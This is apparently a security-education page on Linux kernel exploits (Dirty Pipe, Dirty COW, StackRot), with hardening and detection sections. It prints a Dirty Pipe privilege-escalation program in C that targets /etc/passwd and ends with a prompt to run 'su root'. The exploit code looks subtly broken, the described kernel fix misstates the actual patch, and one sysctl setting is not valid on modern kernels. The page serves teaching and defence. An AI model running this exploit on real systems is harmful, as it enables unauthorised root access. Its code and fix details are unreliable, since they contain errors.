



# Dirty Pipe & Linux Kernel Exploits

The Linux kernel is the foundation of most server infrastructure, Android devices, and embedded systems. When a vulnerability exists in the kernel, the impact is absolute: an attacker who exploits it can gain root access, bypass all access controls, escape containers, and compromise the entire system. Kernel exploits are the ultimate privilege escalation.

This page covers three landmark Linux kernel vulnerabilities — **Dirty Pipe**, **Dirty COW**, and **StackRot** — as case studies, then discusses the kernel hardening techniques that defend against this entire class of attack.

**Related**: [Container Escapes](/security/exploits/container-escapes) | [Spectre & Meltdown](/security/exploits/spectre-meltdown) | [Security Overview](/security/)

---

## Dirty Pipe (CVE-2022-0847)

Discovered by Max Kellermann in February 2022, Dirty Pipe allows an unprivileged user to **overwrite data in read-only files**, including files owned by root. This enables trivial privilege escalation — an attacker can overwrite `/etc/passwd` to set root's password, or modify SUID binaries to execute arbitrary code as root.

### CVSS Score: 7.8 (High)
### Affected: Linux kernel 5.8 through 5.16.10, 5.15.24, 5.10.101

### How It Works

The vulnerability is in how the Linux kernel handles **pipe buffers** and the `splice()` system call. When a pipe buffer merges with a page cache page (which backs files on disk), the pipe's `PIPE_BUF_FLAG_CAN_MERGE` flag is incorrectly preserved, allowing subsequent writes to the pipe to overwrite the cached file data.



### The Exploit

```c
// Dirty Pipe exploit — conceptual demonstration
// Overwrites arbitrary read-only files

#define _GNU_SOURCE
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>

int main() {
    // Target: overwrite /etc/passwd to set root password
    const char *target = "/etc/passwd";
    // Offset in the file where we want to write
    // (skip past "root:x:" to overwrite the password hash)
    long offset = 4;  // after "root"

    // The data to inject — change root's password field
    const char *data = ":$1$hack$abcdef:0:0:root:/root:/bin/bash\n";   // [!code error]

    // Create a pipe
    int pipefd[2];
    pipe(pipefd);

    // Fill the pipe buffer, then drain it
    // This sets PIPE_BUF_FLAG_CAN_MERGE on the pipe buffer
    char buf[1];
    write(pipefd[1], "A", 1);                    // [!code error]
    read(pipefd[0], buf, 1);                      // [!code error]

    // Open the target file READ-ONLY
    int fd = open(target, O_RDONLY);

    // Splice one byte from the file into the pipe
    // This makes the pipe buffer reference the page cache
    // The CAN_MERGE flag is INCORRECTLY preserved
    lseek(fd, offset, SEEK_SET);
    splice(fd, NULL, pipefd[1], NULL, 1, 0);      // [!code error]

    // Now write to the pipe — this overwrites the page cache!
    write(pipefd[1], data, strlen(data));          // [!code error]

    // The file is now modified in the page cache
    // Root's password hash has been changed
    // Run: su root (with the new password)

    close(fd);
    close(pipefd[0]);
    close(pipefd[1]);

    printf("Root password overwritten. Run 'su root' now.\n");
    return 0;
}
```

::: danger Exploitation Is Trivial
Dirty Pipe requires **no special privileges**. Any user who can create a pipe and open a file for reading can exploit it. The exploit is roughly 20 lines of C. It does not crash the system, does not require ASLR bypass, does not need any other vulnerability. This is about as easy as privilege escalation gets.
:::

### The Fix

The fix was a one-line change in the kernel — clearing the `PIPE_BUF_FLAG_CAN_MERGE` flag when a new buffer is initialized in the pipe:

```c
// fs/pipe.c — the fix (kernel 5.16.11)

// Before (vulnerable): flag was inherited from previous buffer usage
pipe_buf_init(buf);

// After (fixed): explicitly clear the merge flag        // [!code highlight]
buf->flags = 0;  // Clear ALL flags including CAN_MERGE  // [!code highlight]
```

---

## Dirty COW (CVE-2016-5195)

Dirty COW (Copy-On-Write) was discovered in October 2016 and is a race condition in the kernel's memory management subsystem. It allows an unprivileged user to gain write access to read-only memory mappings.

### How It Works



The race window is small, but it can be won reliably by running the two threads in a tight loop. It typically takes seconds to a few minutes.

### Impact

| Use Case | Technique |
|----------|-----------|
| **Privilege escalation** | Overwrite `/etc/passwd` or SUID binaries |
| **Container escape** | Overwrite host files visible to the container |
| **Android rooting** | Dirty COW was widely used to root Android phones (kernel 2.6.22+) |

::: warning 9 Years Vulnerable
Dirty COW was present in the Linux kernel from version 2.6.22 (2007) through the fix in October 2016. That is **nine years** of vulnerability in the most widely deployed operating system kernel.
:::

---

## StackRot (CVE-2023-3269)

Discovered in 2023, StackRot is a use-after-free vulnerability in the kernel's maple tree data structure (used for managing virtual memory areas). It affects Linux kernel versions 6.1 through 6.4.

### What Makes It Notable

- It is exploitable through the **stack expansion** mechanism — a fundamental kernel operation
- It can bypass all modern kernel hardening features (KASLR, SMEP, SMAP, CFI)
- The discoverer (Ruihan Li) published a full exploit chain as educational material



---

## Other Notable Kernel Vulnerabilities

| CVE | Name | Year | Type | Impact |
|-----|------|------|------|--------|
| CVE-2016-5195 | Dirty COW | 2016 | Race condition | Write to read-only files |
| CVE-2021-4154 | - | 2021 | Use-after-free in cgroups | Container escape |
| CVE-2022-0185 | - | 2022 | Heap overflow in file system | Container escape |
| CVE-2022-0847 | Dirty Pipe | 2022 | Pipe flag inheritance | Overwrite read-only files |
| CVE-2022-2588 | - | 2022 | Use-after-free in cls_route | Privilege escalation |
| CVE-2023-0386 | - | 2023 | OverlayFS flaw | Privilege escalation |
| CVE-2023-3269 | StackRot | 2023 | Use-after-free in maple tree | Full kernel compromise |
| CVE-2023-32233 | - | 2023 | Use-after-free in nf_tables | Privilege escalation |

---

## Linux Kernel Hardening

These are the defense mechanisms that make kernel exploitation harder (though not impossible, as StackRot demonstrated):

### Address Space Protections

```bash
# KASLR — Kernel Address Space Layout Randomization
# Randomizes the base address of the kernel in memory
# Makes it harder to predict where kernel structures are
cat /proc/sys/kernel/randomize_va_space
# 2 = full randomization (recommended)

# Check if KASLR is enabled at boot
cat /proc/cmdline | grep -o 'nokaslr' || echo "KASLR enabled"
```

| Protection | What It Does | Bypass Difficulty |
|-----------|-------------|-------------------|
| **KASLR** | Randomizes kernel base address | Medium (info leak needed) |
| **SMEP** | Prevents kernel from executing user-space code | Medium (ROP/JOP) |
| **SMAP** | Prevents kernel from accessing user-space memory | Medium (specific gadgets) |
| **KPTI** | Separates kernel/user page tables | N/A (Meltdown mitigation) |
| **Stack Canaries** | Detect stack buffer overflows | Medium (info leak needed) |
| **CFI** (Control-Flow Integrity) | Restrict indirect call targets | Hard |

### seccomp — Syscall Filtering

seccomp restricts which system calls a process can make. If a kernel vulnerability is only reachable through a specific syscall, seccomp can block it.

```c
// Example: seccomp filter that blocks dangerous syscalls
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <sys/prctl.h>

// BPF filter: allow only read, write, exit, sigreturn
struct sock_filter filter[] = {
    BPF_STMT(BPF_LD | BPF_W | BPF_ABS,
             offsetof(struct seccomp_data, nr)),
    // Allow read (syscall 0)
    BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_read, 0, 1),
    BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
    // Allow write (syscall 1)
    BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_write, 0, 1),
    BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
    // Allow exit_group
    BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_exit_group, 0, 1),
    BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
    // Kill on anything else                              // [!code highlight]
    BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_KILL),         // [!code highlight]
};

struct sock_fprog prog = {
    .len = sizeof(filter) / sizeof(filter[0]),
    .filter = filter,
};

prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
```

### Kernel Hardening Checklist

```bash
# sysctl hardening — add to /etc/sysctl.d/99-hardening.conf

# Restrict kernel pointer exposure
kernel.kptr_restrict = 2

# Restrict dmesg access (kernel log can leak addresses)
kernel.dmesg_restrict = 1

# Disable unprivileged BPF (attack surface reduction)
kernel.unprivileged_bpf_disabled = 1

# Enable address space layout randomization
kernel.randomize_va_space = 2

# Restrict loading new kernel modules
kernel.modules_disabled = 1   # WARNING: prevents ALL module loading

# Restrict user namespaces (used in many container escapes)
kernel.unprivileged_userns_clone = 0

# Restrict ptrace to parent processes only
kernel.yama.ptrace_scope = 2

# Disable SysRq key (prevents physical access attacks)
kernel.sysrq = 0

# Restrict core dumps (can leak sensitive data)
fs.suid_dumpable = 0

# Enable ExecShield (NX bit enforcement)
kernel.exec-shield = 1
```

::: tip Defense in Depth for Kernel Security
1. **Keep the kernel updated**: Most kernel exploits target specific versions. Automated patching (kpatch, livepatch) reduces the window.
2. **Use seccomp profiles**: Restrict the syscall surface available to applications, especially in containers.
3. **Enable LSMs**: AppArmor or SELinux provide mandatory access controls that survive even root compromise.
4. **Minimize kernel modules**: Every loaded module increases the attack surface. Disable unused modules.
5. **Use gVisor or microVMs for untrusted workloads**: Run untrusted code in a separate kernel (gVisor) or a lightweight VM (Firecracker, Kata).
6. **Monitor for exploitation**: Watch for unexpected privilege changes, new SUID binaries, and modified system files.
:::

---

## Detection

### Signs of Kernel Exploit Abuse

```bash
# Check for unexpected SUID/SGID binaries
find / -perm -4000 -type f 2>/dev/null | sort > /tmp/suid-current.txt
diff /tmp/suid-baseline.txt /tmp/suid-current.txt

# Check for modified system files
rpm -Va 2>/dev/null   # RPM-based systems
debsums -c 2>/dev/null   # Debian-based systems

# Check for unexpected root processes
ps aux | awk '$1 == "root" {print}' | sort > /tmp/root-procs-current.txt

# Check kernel ring buffer for exploit artifacts
dmesg | grep -iE 'segfault|general protection|bug:|oops:|panic'

# Monitor for unexpected credential changes
# (StackRot-style exploits modify the cred struct)
ausearch -m USER_AUTH -ts recent
```

---

## Key Takeaways

| Lesson | Implication |
|--------|------------|
| Kernel bugs mean total compromise | A single kernel vulnerability can bypass all user-space security controls |
| Simple bugs have devastating impact | Dirty Pipe's fix was one line; the exploit was 20 lines |
| Bugs can hide for years | Dirty COW was present for 9 years before discovery |
| Hardening raises the bar but is not absolute | StackRot bypassed KASLR, SMEP, SMAP, and CFI |
| Attack surface reduction is the best defense | seccomp, namespaces, and minimal kernel configurations reduce what can be exploited |
| Containers share the kernel | A kernel exploit inside a container compromises the host |

---

## Further Reading

- [Container Escapes](/security/exploits/container-escapes) — how kernel exploits enable container breakouts
- [Spectre & Meltdown](/security/exploits/spectre-meltdown) — hardware-level kernel memory leaks
- [Cloud Misconfigurations](/security/exploits/cloud-misconfigs) — infrastructure-level security failures
- [Exploits Overview](/security/exploits/) — taxonomy and context for all exploit case studies
